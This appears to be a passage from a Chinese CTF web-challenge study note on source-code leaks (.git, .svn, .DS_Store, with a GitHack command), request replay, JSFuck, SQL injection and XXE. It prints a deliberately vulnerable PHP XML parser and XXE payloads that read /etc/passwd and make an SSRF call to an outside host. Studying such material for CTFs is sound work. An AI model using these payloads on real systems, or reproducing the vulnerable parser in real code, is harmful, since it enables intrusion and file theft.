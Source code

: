 ![](https://github.com/MHYCDH/MHYCDH.github.io/blob/master/img/19-07-23/6.jpg?raw=true)

#### 关于文件泄漏

[有关文件泄漏的文章](https://zhuanlan.zhihu.com/p/21296806)

- 备份文件：.index.php.swp、.index.php.swo、.index.php.bak、.index.php~
- git / svn泄露：git泄露：www.xxx.com/.git/config，之后使用工具GitHack可以获取源码 `python GitHack.py URL/.git` svn泄露：www.xxx.com/.svn/entries，利用工具dvcs-ripper获取源码
- 其它文件泄露：.idea目录泄露:（使用了IntelliJ IDEA的工程，可泄露目录结构），详情可看[这里](https://webscan.qianxin.com/)。 .DS_Store：www.xxx.com/.ds_store，工具ds_store_exp。 .pyc文件:（python编译后的字节码文件）

#### 请求修改，重放

这里主要用好Burpsuite,浏览器F12就好了，Hackbar也很方便，不需要更多的工具。

#### JSF*ck

经过JSF*ck编码后的JavaScript代码，要查看运行非常简单，直接在页面直接调用就好了，或者在Chrome浏览器的开发者工具中的Console中执行也行。

![](https://github.com/MHYCDH/MHYCDH.github.io/blob/master/img/19-07-23/7.jpeg?raw=true)

### 2.常规

- 一个存在漏洞的网站
- 拿到数据库中的flag（SQL注入）
- 拿到服务器上的flag（命令执行，文件上传）
- 拿到管理员的cookie，flag在cookie中（XXE）
- 其他的一些漏洞利用（条件竞争，SSRF，XXE）

#### SQL注入

- 可以用[sqlmap](https://www.freebuf.com/column/150475.html)获取数据

#### XXE

后端获取一个xml文档

```php
<? php
$xml=simplexml_load_string($_GET['xml']);
print_r((string)$xml);
```

读取本地文件

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>
```

SSRF

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY url SYSTEM "http://zzm.cat:8080">]>
<root>&url;</root>
```
